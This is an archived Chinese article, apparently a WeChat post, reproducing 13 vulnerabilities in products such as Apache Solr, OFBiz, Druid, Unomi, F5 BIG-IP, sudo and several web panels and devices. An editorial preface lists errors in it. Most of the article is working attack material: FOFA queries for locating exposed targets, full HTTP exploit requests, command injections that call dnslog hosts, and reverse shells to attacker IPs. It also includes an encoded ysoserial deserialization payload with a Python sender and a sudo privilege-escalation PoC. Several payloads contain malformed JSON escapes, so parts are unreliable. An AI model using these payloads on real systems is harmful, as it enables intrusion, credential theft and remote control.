# 复现了 13 个漏洞

> 编号角色校订（2026-10-04）：按归档技术正文区分主讨论编号与背景引用，更新 `primary_identifiers` / `referenced_identifiers` 及旧字段角色。旧编号原值、状态与正文保持原样，变更前字段逐字保存在 `previous_*`；后文旧的角色待核说明应按当前字段阅读。这里的角色判读不等于官方分配核验或漏洞复现。

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：13项多产品漏洞复现合集
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：13项均正文内容，元数据只取D-Link25078遗漏其余主CVE/CNVD，多个无版本和修复信息；F5带完整Basic凭据且空token，未展示凭据无效/认证绕过差异，不能据正常认证命令接口证明22986；sudoedit -s /示例缺关键尾反斜杠且仅报错前缀判定不可靠，Ubuntu特定PoC未给系统/glibc范围
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 13项均正文内容，元数据只取D-Link25078遗漏其余主CVE/CNVD，多个无版本和修复信息
2. D-Link只2530L检索却扩DCS系列，VMware拼成VMwar，OFBiz经HTTP SOAP反序列化不是RMI入口
3. JD-FreeFuck需管理员登录且/runCmd疑为本来命令功能，缺越权边界不能只凭能执行认漏洞
4. Solr镜像未锁8.8.1而只改容器名称，core建new_core请求却用test，开启enableRemoteStreaming明确改变配置，不是默认任意读
5. Solr和Druid JSON含反斜杠转义右括号而非合法JSON
6. F5带完整Basic凭据且空token，未展示凭据无效/认证绕过差异，不能据正常认证命令接口证明22986
7. OFBiz URLDNS只证明反序列化外连不直接证明RCE，ROME依赖JDK/类路径/出口
8. sudoedit -s /示例缺关键尾反斜杠且仅报错前缀判定不可靠，Ubuntu特定PoC未给系统/glibc范围
9. 硬编码旧Cookie/DNS回调和反连地址要替换、Content-Length需重算，缺清理和隔离
10. Flink/Unomi/设备条目有可检索报文但均缺厂商补丁与原研究精确来源，全部复现结论主要截图，广告PDF领取可去除

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://mp.weixin.qq.com/s/cG868wc7dmwxFslcwlgDpw>

### 归档技术正文

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/cG868wc7dmwxFslcwlgDpw)

**pdf 版本：****后台回复 “**复现**” 下载 pdf 版本查看******
=======================================================================================================================================================================================

公众号

**一、****【CNVD-2021-10543】MessageSolution 邮件归档系统****账号密码信息泄露**
=============================================================

```
FOFA: title="MessageSolution Enterprise Email Archiving (EEA)"
```

前台的样子：



```
EXP：http://ip/authenticationserverservlet/
```

访问如图，获取得到账号 & 密码：



**二、【****CVE-2020-25078****】****D-Link DCS 系列监控账号密码信息泄露**
=========================================================

```
FOFA: app="D_Link-DCS-2530L"
```

直接访问需要账号密码登录：



```
EXP：http://ip/config/getuser?index=0
```

如图，得到账号密码：



三、**浪潮 ClusterEngineV4.0 任意命令执行**
=================================

```
FOFA: title="TSCEV4.0"
```

前台的样子：



登录处抓包，然后闭合 username 字段重发引发报错。如图：



构造 POC，请求包内容：  

```
POST /login HTTP/1.1
Host: x.x.x.x
Connection: close
Content-Length: 61
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: lang=cn

op=login&username=admin`ping wsgpgq.dnslog.cn`&password=admin
```



四、**JD-FreeFuck 后台 RCE**
========================

```
FOFA: title="京东薅羊毛控制面板"
```

前台的样子：  


如果运气足够好的话：默认账号密码 useradmin/supermanito



构造 POC，请求包内容：

```
POST /runCmd HTTP/1.1
Host: x.x.x.x
Content-Length: 54
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
Origin: http://x.x.x.x
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://x.x.x.x/runCmd
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: connect.0.13416810928385314=s%3ADihBr216xOtHaZ6_yq86aIF0UNpiCo5v.jLFQG19H1e%2FrP6NwaH0UX2tjYwsFQuhXIIaSIkVG4Jg
Connection: close

cmd=bash+jd.sh+%3Bcat+%2Fetc%2Fpasswd%3B+now&delay=500
```



尝试反弹 shell：  

```
cmd=bash+jd.sh+%3Bbash+-c+'exec+bash+-i+%26%3E%2Fdev%2Ftcp%2Fxxx.xxx.xxx.xxx%2F9999+%3C%261'%3B+now&delay=500
```

成功！  



五、**【****CVE-2021-21975****】****VMwar vRealize Operations Manager SSRF**
========================================================================

```
FOFA:title="vRealize Operations Manager"
```

前台的样子：  



POC：

```
POST /casa/nodes/thumbprints HTTP/1.1
Host: x.x.x.x
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Length: 20

["127.0.0.1:443/ui"]
```



**六、****三星 WLAN AP WEA453e 路由器远程命令执行**
======================================

```
FOFA:title=="Samsung WLAN AP"
```

前台的样子  



```
POST /(download)/tmp/a.txt HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://x.x.x.x/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 48

command1=shell:cat /etc/passwd| dd of=/tmp/a.txt
```



**七、****Apache Solr =< 8.8.1 任意文件读取漏洞**
=======================================

拉取镜像：

docker pull solr

启动容器：

docker run --name solr-8.8.1 -p 8983:8983 -itd solr

此时访问 http://yourip:8983 可以看到相关管理页面。由于是刚启动的环境，需要先对环境配置，否则无法直接创建 core。



doker 进入交互模式：

docker exec -it solr-8.8.1 /bin/bash

复制默认配置文件：

```
cp -r /opt/solr/server/solr/configsets/_default/conf /var/solr/data/new_core/
```

①在面板上创建 core：  



②查看环境所有 core 名称：

http://your_ip:8983/solr/admin/cores?indexInfo=false&wt=json



③开启相关配置（我也不知道开的啥)

```
POST /solr/test/config HTTP/1.1
Host: 10.0.133.170:8983
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://10.0.133.170:8983/solr/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 84
Content-type:application/json

{  "set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true\}\}
```



④任意文件读取：

```
POST /solr/test/debug/dump?param=ContentStreams HTTP/1.1
Host: 10.0.133.170:8983
Content-type:application/x-www-form-urlencoded
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://10.0.133.170:8983/solr/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 29

stream.url=file:///etc/passwd
```



八、**【****CVE-2021-26295****】****Apache OFBiz RMI 反序列化漏洞**
=========================================================

拉取环境：

docker run -itd -p 8080:8080 -p 8443:8443 opensourceknight/ofbiz

拉取完成后访问漏洞环境：

http://your_ip:8080/webtools/control/SOAPService



**DNSLOG 验证：**

poc：

```
https://github.com/ltfafei/CVE-2021-26295_Apache_OFBiz_POC
```

①dns 地址转 ot 字符串：  

```
java -jar ysoserial.jar URLDNS http://7qo3nk.dnslog.cn> dnslog.ot
```

执行完毕在本地生成 dnslog.ot 文件



②执行脚本将 上面的 ot 字符串再次转码

```
python3 ot_trans_hex.py -f dnslog.ot
```



③将转码后得到的 16 进制内容放入 POC，然后发包：  

```
GET /webtools/control/SOAPService HTTP/1.1
Host: 10.0.133.170:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: OFBiz.Visitor=10100
Connection: close
Content-Length: 1030

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> 
    <soapenv:Header/>
    <soapenv:Body>
    <ser>
    <map-HashMap>
        <map-Entry>
            <map-Key>
                <cus-obj>aced0005737200116a6176612e7574696c2e486173684d61700507dac1c31660d103000246000a6c6f6164466163746f724900097468726573686f6c6478703f4000000000000c770800000010000000017372000c6a6176612e6e65742e55524c962537361afce47203000749000868617368436f6465490004706f72744c0009617574686f726974797400124c6a6176612f6c616e672f537472696e673b4c000466696c6571007e00034c0004686f737471007e00034c000870726f746f636f6c71007e00034c000372656671007e00037870ffffffffffffffff74001037716f336e6b2e646e736c6f672e636e74000071007e0005740004687474707078740017687474703a2f2f37716f336e6b2e646e736c6f672e636e78</cus-obj>
            </map-Key>
            <map-Value>
                <std-String value="7qo3nk.dnslog.cn"/>
            </map-Value>
        </map-Entry>
    </map-HashMap>
    </ser>
    </soapenv:Body>
    </soapenv:Envelope>
```



Dnslog 得到回显，说明漏洞存在：



**反弹 shell：**

①编码  

将 shell 命令进行 base64 加密，加密地址：

```
http://www.jackson-t.ca/runtime-exec-payloads.html
```



②将加密的反弹 shell 命令进行编译

```
java -jar ysoserial.jar ROME  "bash -c {echo,YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvMTAuMC4xMzMuMTQ4Lzk5OTkgPCYxJwo=}|{base64,-d}|{bash,-i}" | xxd|cut -f 2,3,4,5,6,7,8,9 -d " "|tr -d ' '|tr -d '\n'
```



然后把生成好的内容，替换下面脚本的 hex_data 变量内容

```
import requests

def POC():
    hex_data = "aced0005737200116a6176612e7574696c2e486173684d61700507dac1c31660d103000246000a6c6f6164466163746f724900097468726573686f6c6478703f400000000000007708000000020000000273720028636f6d2e73756e2e73796e6469636174696f6e2e666565642e696d706c2e4f626a6563744265616e829907de7604944a0200034c000e5f636c6f6e6561626c654265616e74002d4c636f6d2f73756e2f73796e6469636174696f6e2f666565642f696d706c2f436c6f6e6561626c654265616e3b4c000b5f657175616c734265616e74002a4c636f6d2f73756e2f73796e6469636174696f6e2f666565642f696d706c2f457175616c734265616e3b4c000d5f746f537472696e674265616e74002c4c636f6d2f73756e2f73796e6469636174696f6e2f666565642f696d706c2f546f537472696e674265616e3b78707372002b636f6d2e73756e2e73796e6469636174696f6e2e666565642e696d706c2e436c6f6e6561626c654265616edd61bbc5334f6b770200024c00115f69676e6f726550726f7065727469657374000f4c6a6176612f7574696c2f5365743b4c00045f6f626a7400124c6a6176612f6c616e672f4f626a6563743b78707372001e6a6176612e7574696c2e436f6c6c656374696f6e7324456d70747953657415f5721db403cb2802000078707371007e00027371007e000771007e000c7372003a636f6d2e73756e2e6f72672e6170616368652e78616c616e2e696e7465726e616c2e78736c74632e747261782e54656d706c61746573496d706c09574fc16eacab3303000649000d5f696e64656e744e756d62657249000e5f7472616e736c6574496e6465785b000a5f62797465636f6465737400035b5b425b00065f636c6173737400125b4c6a6176612f6c616e672f436c6173733b4c00055f6e616d657400124c6a6176612f6c616e672f537472696e673b4c00115f6f757470757450726f706572746965737400164c6a6176612f7574696c2f50726f706572746965733b787000000000ffffffff757200035b5b424bfd19156767db37020000787000000002757200025b42acf317f8060854e0020000787000000705cafebabe0000003200390a0003002207003707002507002601001073657269616c56657273696f6e5549440100014a01000d436f6e7374616e7456616c756505ad2093f391ddef3e0100063c696e69743e010003282956010004436f646501000f4c696e654e756d6265725461626c650100124c6f63616c5661726961626c655461626c6501000474686973010013537475625472616e736c65745061796c6f616401000c496e6e6572436c61737365730100354c79736f73657269616c2f7061796c6f6164732f7574696c2f4761646765747324537475625472616e736c65745061796c6f61643b0100097472616e73666f726d010072284c636f6d2f73756e2f6f72672f6170616368652f78616c616e2f696e7465726e616c2f78736c74632f444f4d3b5b4c636f6d2f73756e2f6f72672f6170616368652f786d6c2f696e7465726e616c2f73657269616c697a65722f53657269616c697a6174696f6e48616e646c65723b2956010008646f63756d656e7401002d4c636f6d2f73756e2f6f72672f6170616368652f78616c616e2f696e7465726e616c2f78736c74632f444f4d3b01000868616e646c6572730100425b4c636f6d2f73756e2f6f72672f6170616368652f786d6c2f696e7465726e616c2f73657269616c697a65722f53657269616c697a6174696f6e48616e646c65723b01000a457863657074696f6e730700270100a6284c636f6d2f73756e2f6f72672f6170616368652f78616c616e2f696e7465726e616c2f78736c74632f444f4d3b4c636f6d2f73756e2f6f72672f6170616368652f786d6c2f696e7465726e616c2f64746d2f44544d417869734974657261746f723b4c636f6d2f73756e2f6f72672f6170616368652f786d6c2f696e7465726e616c2f73657269616c697a65722f53657269616c697a6174696f6e48616e646c65723b29560100086974657261746f720100354c636f6d2f73756e2f6f72672f6170616368652f786d6c2f696e7465726e616c2f64746d2f44544d417869734974657261746f723b01000768616e646c65720100414c636f6d2f73756e2f6f72672f6170616368652f786d6c2f696e7465726e616c2f73657269616c697a65722f53657269616c697a6174696f6e48616e646c65723b01000a536f7572636546696c6501000c476164676574732e6a6176610c000a000b07002801003379736f73657269616c2f7061796c6f6164732f7574696c2f4761646765747324537475625472616e736c65745061796c6f6164010040636f6d2f73756e2f6f72672f6170616368652f78616c616e2f696e7465726e616c2f78736c74632f72756e74696d652f41627374726163745472616e736c65740100146a6176612f696f2f53657269616c697a61626c65010039636f6d2f73756e2f6f72672f6170616368652f78616c616e2f696e7465726e616c2f78736c74632f5472616e736c6574457863657074696f6e01001f79736f73657269616c2f7061796c6f6164732f7574696c2f476164676574730100083c636c696e69743e0100116a6176612f6c616e672f52756e74696d6507002a01000a67657452756e74696d6501001528294c6a6176612f6c616e672f52756e74696d653b0c002c002d0a002b002e01007162617368202d63207b6563686f2c596d467a614341745979416e5a58686c5979426959584e6f494331704943592b4c32526c64693930593341764d5441754d4334784d7a4d754d5451344c7a6b354f546b67504359784a776f3d7d7c7b6261736536342c2d647d7c7b626173682c2d697d08003001000465786563010027284c6a6176612f6c616e672f537472696e673b294c6a6176612f6c616e672f50726f636573733b0c003200330a002b003401000d537461636b4d61705461626c6501001d79736f73657269616c2f50776e6572313835343937373437343638373401001f4c79736f73657269616c2f50776e657231383534393737343734363837343b002100020003000100040001001a000500060001000700000002000800040001000a000b0001000c0000002f00010001000000052ab70001b100000002000d0000000600010000002f000e0000000c000100000005000f003800000001001300140002000c0000003f0000000300000001b100000002000d00000006000100000033000e00000020000300000001000f0038000000000001001500160001000000010017001800020019000000040001001a00010013001b0002000c000000490000000400000001b100000002000d00000006000100000036000e0000002a000400000001000f003800000000000100150016000100000001001c001d000200000001001e001f00030019000000040001001a00080029000b0001000c00000024000300020000000fa70003014cb8002f1231b6003557b1000000010036000000030001030002002000000002002100110000000a000100020023001000097571007e0017000001d4cafebabe00000032001b0a0003001507001707001807001901001073657269616c56657273696f6e5549440100014a01000d436f6e7374616e7456616c75650571e669ee3c6d47180100063c696e69743e010003282956010004436f646501000f4c696e654e756d6265725461626c650100124c6f63616c5661726961626c655461626c6501000474686973010003466f6f01000c496e6e6572436c61737365730100254c79736f73657269616c2f7061796c6f6164732f7574696c2f4761646765747324466f6f3b01000a536f7572636546696c6501000c476164676574732e6a6176610c000a000b07001a01002379736f73657269616c2f7061796c6f6164732f7574696c2f4761646765747324466f6f0100106a6176612f6c616e672f4f626a6563740100146a6176612f696f2f53657269616c697a61626c6501001f79736f73657269616c2f7061796c6f6164732f7574696c2f47616467657473002100020003000100040001001a000500060001000700000002000800010001000a000b0001000c0000002f00010001000000052ab70001b100000002000d0000000600010000003a000e0000000c000100000005000f001200000002001300000002001400110000000a000100020016001000097074000450776e72707701007873720028636f6d2e73756e2e73796e6469636174696f6e2e666565642e696d706c2e457175616c734265616ef58a18bbe5f618110200024c000a5f6265616e436c6173737400114c6a6176612f6c616e672f436c6173733b4c00045f6f626a71007e000978707672001d6a617661782e786d6c2e7472616e73666f726d2e54656d706c617465730000000000000000000000787071007e00147372002a636f6d2e73756e2e73796e6469636174696f6e2e666565642e696d706c2e546f537472696e674265616e09f58e4a0f23ee310200024c000a5f6265616e436c61737371007e001c4c00045f6f626a71007e0009787071007e001f71007e00147371007e001b7671007e000271007e000d7371007e002071007e002371007e000d71007e000671007e000671007e000678"    
    headers = {'Content-Type': 'text/xml' }
    post_data = '''<?xml version='1.0' encoding='UTF-8'?><soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header/><soapenv:Body><test:clearAllEntityCaches xmlns:test="http://ofbiz.apache.org/service/"><test:cus-obj>%s</test:cus-obj></test:clearAllEntityCaches></soapenv:Body></soapenv:Envelope>''' % hex_data    
    vuln_url = "http://10.0.133.170:8080/webtools/control/SOAPService"   
    
    response = requests.post(url=vuln_url, data=post_data, headers=headers)
    if response.status_code == 200:
        print("请求成功，请检查监听地址响应")
        
if __name__ == '__main__':
    POC()
```

监听端口，执行脚本，反弹 shell：



九、**【****CVE-2021-22986****】****F5 BIG-IP 远程代码执行漏洞** 
=====================================================

环境下载地址：

```
https://downloads.f5.com/esd/eula.sv?sw=BIG-IP&pro=big-ip_v16.x&ver=16.0.1&container=16.0.1_Virtual-Edition&path=&file=&B1=I+Accept
```

选择 ova 格式的下载，下载完成后可以直接用 VM 虚拟机打开。



打开后用户名：root，密码：default，第一次登录需要修改密码。成功登陆后，输入 config，几次回车即可看到当前 ip：



直接访问：https://10.0.133.179  



POC:

```
POST /mgmt/tm/util/bash HTTP/1.1
Host: 10.0.133.179
Content-Type: application/json
User-Agent: Mozilla/5.0 (compatible; Baiduspider/2.0; +http://www.baidu.com/search/spider.html)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Authorization: Basic YWRtaW46QVNhc1M=
X-F5-Auth-Token:
Content-Length: 39

{"command":"run","utilCmdArgs":"-c id"}
```

命令被执行：  



另外一个接口同样可以命令执行：

```
POST /mgmt/tm/access/bundle-install-tasks HTTP/1.1
Host: 10.0.133.179
Content-Type: application/json
User-Agent: Mozilla/5.0 (compatible; Baiduspider/2.0; +http://www.baidu.com/search/spider.html)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Authorization: Basic YWRtaW46QVNhc1M=
X-F5-Auth-Token:
Content-Length: 38

{"filePath":"`curl 48m8s3.dnslog.cn`"}
```





在这个接口进行 shell 反弹：

```
POST /mgmt/tm/access/bundle-install-tasks HTTP/1.1
Host: 10.0.133.179
Content-Type: application/json
User-Agent: Mozilla/5.0 (compatible; Baiduspider/2.0; +http://www.baidu.com/search/spider.html)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Authorization: Basic YWRtaW46QVNhc1M=
X-F5-Auth-Token:
Content-Length: 59

{"filePath":"`bash -i >& /dev/tcp/10.0.133.148/9090 0>&1`"}
```



**十、****Apache Druid 远程代码执行漏洞 (CVE-2021-25646) 漏洞复现**
=====================================================

自行搭建需要 Java8 环境。

①下载：

```
https://mirrors.ocf.berkeley.edu/apache/druid/0.19.0/apache-druid-0.19.0-bin.tar.gz
```

②解压分发目录：  

```
tar -xzf apache-druid-0.19.0-bin.tar.gz
cd apache-druid-0.19.0
```

③启动运行：  

```
./bin/start-micro-quickstart
```

④访问：http://your_ip:8888/  

⑤导入文件：Load data -> Local disk->connect



⑥填入

Base directory:

```
quickstart/tutorial/
```

File filter:  

```
wikiticker-2015-09-12-sampled.json.gz
```

⑦然后一直下一步直到 filter 项，新建过滤。抓包打 poc



⑧打 POC 反弹 shell：

```
POST /druid/indexer/v1/sampler?for=filter HTTP/1.1
Host: 192.168.1.1:8888
Content-Length: 705
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.1.1:8888
Referer: http://192.168.1.1:8888/unified-console.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"type":"index","spec":{"type":"index","ioConfig":{"type":"index","firehose":{"type":"local","baseDir":"quickstart/tutorial/","filter":"wikiticker-2015-09-12-sampled.json.gz"\}\},"dataSchema":{"dataSource":"sample","parser":{"type":"string","parseSpec":{"format":"json","timestampSpec":{"column":"time","format":"iso"},"dimensionsSpec":{\}\\}\},"transformSpec":{"transforms":[],"filter":{"type":"javascript",
"function":"function(value){return java.lang.Runtime.getRuntime().exec('/bin/bash -c $@|bash 0 echo bash -i >& /dev/tcp/192.168.1.2/8000 0>&1')}",
"dimension":"added",
"":{
"enabled":"true"
}
\}\}\}\},"samplerConfig":{"numRows":500,"timeoutMs":15000,"cacheKey":"4ddb48fdbad7406084e37a1b80100214"\}\}
```



**十一、【****CVE-2021-3156****】****: sudo 缓冲区溢出****提权**
====================================================

 以非 root 用户登录系统，命令行：

```
sudoedit -s /
```

如果响应一个以 sudoedit: 开头的报错，那么表明存在漏洞。



如果响应一个以 usage: 开头的报错，那么表明补丁已经生效。

```
POC地址：https://haxx.in/CVE-2021-3156_nss_poc_ubuntu.tar.gz
```

以普通用户解压 poc 并编译执行

```
cd CVE-2021-3156
make
./sudo-hax-me-a-sandwich root
```

提权成功：  



十二、**Apache Flink CVE-2020-17519** **任意文件读取**
=============================================

环境直接用 vulhub，EXP：

```
http://your-ip:8081/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```



**十三、【****CVE-2020-13942****】****Apache Unomi 远程代码执行漏洞**
========================================================

title="Unomi"



Dnslog 检测：

```
POST /context.json HTTP/1.1
Host: x.x.x.x
Connection: close
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://x.x.x.x/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 491

{
    "filters": [
        {
            "id": "sample",
            "filters": [
                {
                    "condition": {
                         "parameterValues": {
                            "": "script::Runtime r = Runtime.getRuntime(); r.exec('ping uqn9ja.dnslog.cn');"
                        },
                        "type": "profilePropertyCondition"
                    }
                }
            ]
        }
    ],
    "sessionId": "sample"
}
```



反弹 shell：

```
POST /context.json HTTP/1.1
Host: 10.0.133.170:8181
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/*,*/*;q=0.8
Referer: http://10.0.133.170:8181/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 1115

{
  "personalizations":[
    {
      "id":"gender-test",
      "strategy":"matching-first",
      "strategyOptions":{
        "fallback":"var2"
      },
      "contents":[
        {
          "filters":[
            {
              "condition":{
                "parameterValues":{
                  "propertyName":"(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod.invoke(#rtobj,\"/bin/bash -c $@|bash 0 echo bash -i >& /dev/tcp/10.0.133.148/9999 0>&1\"))",
                  "comparisonOperator":"equals",
                  "propertyValue":"male"
                },
                "type":"profilePropertyCondition"
              }
            }
          ]
        }
      ]
    }
  ],
  "sessionId":"sample"
}
```



-----------------------------------------------------------------------------------

若因图片清晰度问题影响观看，后台回复 “**复现**” 下载 pdf 版本查看  

公众号

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
